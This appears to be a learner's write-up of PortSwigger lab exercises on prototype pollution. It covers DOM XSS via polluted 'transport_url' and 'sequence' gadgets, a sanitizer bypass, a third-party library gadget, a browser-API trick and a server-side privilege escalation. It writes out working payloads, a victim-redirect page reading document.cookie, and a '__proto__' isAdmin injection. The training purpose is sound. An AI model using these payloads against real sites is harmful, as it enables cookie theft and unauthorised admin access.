 # Prototype pollution

- https://portswigger.net/web-security/prototype-pollution
- https://portswigger.net/web-security/prototype-pollution/javascript-prototypes-and-inheritance
- https://portswigger.net/web-security/prototype-pollution/client-side
- https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis
- https://portswigger.net/research/widespread-prototype-pollution-gadgets
- https://portswigger.net/web-security/prototype-pollution/server-side
- https://portswigger.net/research/server-side-prototype-pollution
- https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#detecting-sources-for-prototype-pollution

## DOM XSS via client-side prototype pollution

For learning purposes the lab was done using DOM Invader and by manual testing.

### DOM Invader

Turning on `DOM Invader` and setting `Attack Type` to `Prototype pollution` retrieves with two detected sources:
 - `__proto__[property]=value` in search
 - `constructor[prototype][property]=value` in search 

Testing the first finding we can notice that `Object.prototype` was polluted and contains arbitrary `testproperty` with value `DOM_INVADER_PP_POC`.

Now scanning for gadgets reviels one `script.src` sink and points to the code:

```
if(config.transport_url) {
    let script = document.createElement('script');
    script.src = config.transport_url;
    document.body.appendChild(script);
}
```

Now clicking `Exploit` opens a new page with the url `/?search=nsteng9k1'"<>&__proto__[transport_url]=data:,alert(1)` performing XSS

Pollution probably happends in `deparam.js` script.

### Manual

By accessing url `/?__proto__[foo]=bar` we can now check whether pollution was successful, by running `console.log(Object.prototype)` and noticing new `foo` property with `bar` value.

Now in order to test for gadgets, we intercept all the requests in responses and for the script we want to test we add `debugger` statement at the beggining of the script. Now after loading the page, the script execution will pause. Running below code in the console will pollute `Object.prototype` and inform us of every access to its new arbitrary value:

```
Object.defineProperty(Object.prototype, 'transport_url', {
    get() {
        console.trace();
        return 'polluted';
    }
})
```

From this we can read, at which line of code the value is accessed and notice it is being passed to `script.src`.

Now we can craft our own exploit: `?__proto__[transport_url]=data:,alert(1);`

NOTE: In `data:,alert(1);` payload `,` char is because of how this the script tag with data is defined. Usually we have comma separated configuration (type, encoding etc.) and the code

## DOM XSS via an alternative prototype pollution vector

Using `DOM Invader` we can quickly notice one source in search. Now as we scan for gadgets we notice that the value is being passes into `eval` in `searchLogger` function.


Now using dev tools debbuger pausing on `eval` function or the console we can figure out the working payload that solves the lab: `?__proto__.sequence=alert(1)+`.

The `+` sign is there because the code appends `1` at the end of the string, which normnally causes syntaxt error, but `+` sign bypasses this problem.

## Client-side prototype pollution via flawed sanitization

This time DOM Intruder did not find any sources, but be can notice loaded `deparamSanitised.js` script which uses `sanitizeKey` function defined as:

```
function sanitizeKey(key) {
    let badProperties = ['constructor','__proto__','prototype'];
    for(let badProperty of badProperties) {
        key = key.replaceAll(badProperty, '');
    }
    return key;
}
```

Since `replaceAll` function is not called recursively, we can bypass the protection like this: `sanitizeKey("__pro__proto__to__")`

Now accessing `?__pro__proto__to__[foo]=bar` updates the prototype with `foo` property.

`DOM Invader` was able to scan for gadgets and revieled again `transport_url` param passed to `script.src` sink.

Now accessing `?__pro__proto__to__[transport_url]=data:,alert(1);` solves the lab.

## Client-side prototype pollution in third-party libraries

DOM Invader found prototype polution in hash, which tested manually is successful. Testing for gadgets finds one sink in minified js library `ga.js` at `hitCallback` parameter.

Accessing `#__proto__[hitCallback]=alert(1)` successfully triggers `alert` function, so in order to solve the lab we need to deliver to the victim the following page:

```
<script>
location = "https://0a5800d1033bc7ab81b3851200a90031.web-security-academy.net/#__proto__[hitCallback]=alert(document.cookie)"
</script>
```

We cannot use an iframe because of `X-Frame-Options`, but redirection is good enough.

## Client-side prototype pollution via browser APIs

`DOM Invader` found two sources in search and was able to determine a `script.src` sink to which `transport_url` param is passed.

This time the parram is defined using the code below, which unables us to modify the parameter with casual prototype pollution. The value of `transport_url` is set to `false`, and then made uncofigurable.

```
let config = {params: deparam(new URL(location).searchParams.toString()), transport_url: false};
Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
```

`defineProperty` function accepts `descriptor` object as the third parameter, which defines this behaviour, but since the `value` param, defining default value, was not set, we can try to pollute it.

Accessing `?__proto__[value]=data:,alert(1)` pollutes the prototype with `value` key, which then is used in `defineProperty` function, causing the new value being set, which triggers XSS and solves the lab.

## Privilege escalation via server-side prototype pollution

`POST /my-account/change-address` request performs user billing info update with the provided request body:

```
{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"pAxXXWsIcNAPVPJSLCaDvdCdZyFuXDm2"}
```

The response contains additional parameters, such as `isAdmin`. Tries to add `"isAdmin":true` param to the update request did not do the trick.

Adding `"__proto__":{"foo":"bar"}` to the request responds with additional param `"foo":"bar"`, which suggests that we have a prototype pollution here.

Providing invalid json results in 500 response with error description, that parsing failed.

Adding `"__proto__":{"isAdmin":true}` param to the update request responds with `"isAdmin":true`, polluting the prototype by adding `isAdmin` param set to true for every user. This means that probably the user object contains `isAdmin` param if it is an admin, and does not contain it at all if they are not one.

Now having elevated privillages we can access the Admin panel and solve the lab.
